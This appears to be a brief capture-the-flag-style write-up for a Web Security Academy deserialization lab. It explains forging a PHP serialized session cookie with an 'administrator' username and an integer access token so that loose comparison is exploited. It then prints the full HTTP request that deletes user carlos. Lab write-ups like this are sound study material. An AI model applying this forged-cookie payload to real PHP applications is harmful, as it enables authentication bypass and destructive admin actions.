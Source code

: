 # Modifying serialized data types

Update the php object to contain "administrator" and change access token to integer to take 
advantange of php loose comparison vulnerability

Win petition
```
GET /admin/delete?username=carlos HTTP/1.1
Host: 0abf0066042b3d5bc1162b8b000000f7.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0abf0066042b3d5bc1162b8b000000f7.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
